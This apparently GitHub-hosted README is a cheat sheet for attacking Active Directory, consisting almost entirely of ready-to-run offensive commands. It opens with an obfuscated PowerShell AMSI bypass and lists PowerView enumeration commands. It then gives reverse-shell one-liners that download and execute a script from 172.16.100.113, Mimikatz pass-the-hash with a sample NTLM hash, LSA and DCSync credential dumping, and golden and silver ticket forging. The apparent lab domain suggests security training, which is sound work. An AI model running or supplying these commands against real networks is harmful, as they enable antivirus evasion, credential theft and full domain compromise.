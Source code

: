 # Active-directory-small-cheatsheet
Small easy to find cheat sheet for Active directory exploitation

**Amsi bypass:-**

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


**Tips**

To input the output of the first command into second command use this powershell technique


`<First command> | %{<Second command> -<argument> $_}`

%{} is an alias for ForEach-Object{}

?{} is an alias for Where-Object{}

$_ is variable


To filter out an object type we can use this technique with pipe.

`?{$_.<object> -eq '<value>’'}`


##Enumeration:-

**To find local admin access:-**

Find-LocalAdminAccess


**To get Domain sid:-**

Get-DomainSID 

Arguments -Domain “domain name”


**To get DC:-**

Get-NetDomainController

Arguments -Domain “domain name”



**To get users in current domain:-**

Get-NetUser

Arguments  -UserName “username”




**To get user properties:-**

Get-UserProperty

Arguments -Properties pwdlastset



**Search for a particular string in a user's attributes:-**

Find-UserField -SearchField Description -SearchTerm ”built”


**To Get all computers:-**

Get-NetComputer -FullData

Many arguments -OperatingSystem -Ping -FullData


**To get groups:-**

Get-NetGroup

Arguments -FullData -Domain


**To get members of a particular group:-**

Get-NetGroupMember -GroupName "Domain Admins"


**To Group Policies**

Get-NetGPO
Get-NetGPO -ComputerName <Name of the PC>
Get-NetGPOGroup

**To Get users that are part of a Machine's local Admin group**
Find-GPOComputerAdmin -ComputerName <ComputerName>



**To get OUs:**

Get-NetOU -FullData 
Get-NetGPO -GPOname <The GUID of the GPO>



**Mapping forest:-**

Get-NetForest -Verbose

Get-NetForestDomain -Verbose



**Mapping trust:-**

Get-NetDomainTrust
 
Arguments -Domain

Get-NetForestDomain -Verbose | Get-NetDomainTrust




**Finding Constrained Delegation:-**

Get-DomainUser -TrustedToAuth (Poweview Dev.)


**Finding UnConstrained Delegation:-**

Get-NetComputer -UnConstrained



**To get ACLs**

Get-ObjectAcl -SamAccountName <AccountName> -ResolveGUIDs
Get-ObjectAcl -ADSprefix 'CN=Administrator, CN=Users' -Verbose

**To Search for interesting ACEs**

Invoke-ACLScanner -ResolveGUIDs




##Command Execution techniques for reverse shells.

`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.113/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

`powershell.exe iex (iwr http://172.16.100.113/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.113 -Port 443`



##Mimikatz

**Make ntlm ps-session:-**

Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'



**Dump creds:-**

`Invoke-Mimikatz

Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

(dcsync requires 3 permission )`


#Tickets

**Inject ticket:-**

`Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'`

**Export Tickets:-**

`Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'`

**Golden tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<krbtgt hash>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

**Silver tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<target> /service:<ServiceType> /rc4:<rc4 NTLM Hash of user> /user:<UserToImpersonate> /ptt"'`

**TGT tkt**

kekeo.exe 
`tgt::ask /user:<user name> /domain:<domain name> /rc4:<rc4 NTLM Hash of user>`

Here the rc4 hash is for the user who is allowed to delegate.

**TGS tkt**

Kekeo.exe

`tgs::s4u /tgt:tgt_ticket.kirbi /user:<user>@<domain> /service:<service name>/<server name>`







